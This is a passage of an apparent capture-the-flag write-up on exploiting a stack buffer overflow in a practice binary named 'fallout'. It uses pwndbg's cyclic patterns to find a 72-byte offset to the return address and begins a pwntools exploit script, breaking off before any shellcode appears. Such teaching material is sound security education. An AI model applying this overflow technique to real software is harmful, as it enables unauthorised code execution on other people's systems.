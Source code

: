 ```shell
GDB and Pwndbg parameters can be shown or set with show <param> and set <param> <value> GDB commands
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg>
```

Let's run the program with the values from cyclic

```shell
pwndbg> run
Starting program: /home/pl4int3xt/Documents/pwn/shellcode/fallout 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Welcome to the fallout
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.
```

The executable with crash and we will be able to see this as part of the REGISTERS output

```shell
*R13  0x7fffffffe728 —▸ 0x7fffffffea46 ◂— 'PWD=/home/pl4int3xt/Documents/pwn/shellcode'
*R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2d0 ◂— 0x0
*R15  0x403df0 —▸ 0x401120 ◂— endbr64 
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffe5f8 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaa'
*RIP  0x401189 (fallout+42) ◂— ret
```

Let's get the first 8 characters of RSP `jaaaaaaaa` and get the offset

```shell
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

We need 72 bytes to write the return address to jump and execute our shellcode. Let's create a python script to execute our shellcode.

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Set up pwntools for the correct architecture
exe = './fallout'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# Start the executable
io = start()

# How many bytes to the instruction pointer (RIP)?
padding = 72
```